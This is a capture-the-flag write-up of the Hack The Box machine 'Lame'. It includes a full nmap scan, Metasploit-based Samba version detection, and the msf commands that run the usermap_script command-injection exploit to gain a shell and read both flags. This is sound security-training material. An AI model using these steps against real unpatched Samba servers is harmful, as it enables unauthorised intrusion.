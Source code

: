 https://app.hackthebox.com/machines/1

We're firing up with an nmap:
# Nmap 7.91 scan initiated Tue Oct 26 11:25:22 2021 as: nmap -A -T4 -p- -o README.md 10.10.10.3
Nmap scan report for 10.10.10.3
Host is up (0.071s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.52
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Arris TG862G/CT cable modem (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h01m24s, deviation: 2h49m43s, median: 1m23s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-10-26T11:31:06-04:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   67.30 ms 10.10.14.1
2   69.34 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 26 11:30:22 2021 -- 1 IP address (1 host up) scanned in 299.94 seconds
	
	
The FTP server allowes anonymous login but doesn't seem to have anything accessible anonymously on it.
	
Moving on, seems that the server is running smb (samba).

We can try to use **smb_version** from the **Metasploit Framework** to get the version of the smb running on the server.
	
We can use the module like this: 
	
	*use auxiliary/scanner/smb/smb_version*
	
We only need to set the RHOSTS (remote host, the victim's IP): ***set RHOSTS 10.10.10.3*** and then run it.
	
Let's take a look at what it found: -   **Host could not be identified: Unix (Samba 3.0.20-Debian)**
	
So the Samba version seems to be 3.0.20. 
Time to google the version and see if there are any known vulnerabilities for it.
	
The first link we are given upon googling "samba version 3.0.20", is: https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/
	
Description:
	
	#### Description

This module exploits a command execution vulnerability in Samba versions 3.0.20 through 3.0.25rc3 when using the non-default "username map script" configuration option. By specifying a username containing shell meta characters, attackers can execute arbitrary commands. No authentication is needed to exploit this vulnerability since this option is used to map usernames prior to authentication!
	
So this seems to be an OS injection. And looks like Metasploit has got us covered! 

msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > show targets
    ...targets...
msf exploit(usermap_script) > set TARGET < target-id >
msf exploit(usermap_script) > show options
    ...show and set options...
msf exploit(usermap_script) > exploit

	
	
Sweet! We're in!
![[Pasted image 20211028061021.png]]
	
	
It looks like we are logged in as user "firefart".
	If we "ls", we can see there is the user.txt and we can access it!
	If we cd to root, there's also root.txt and we can cat it as well.
	That's it!
	![[Pasted image 20211028061203.png]]